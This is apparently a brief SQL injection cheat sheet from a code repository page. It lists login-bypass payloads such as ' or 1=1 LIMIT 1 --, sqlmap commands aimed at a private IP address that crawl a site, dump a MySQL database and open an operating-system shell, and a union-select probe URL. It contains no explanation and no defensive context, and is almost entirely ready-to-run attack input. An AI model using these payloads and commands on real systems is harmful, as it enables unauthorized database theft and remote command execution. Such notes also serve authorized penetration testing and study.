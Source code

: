 SQL Injection

Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## sqlmap crawl  
sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database  
sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell  
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8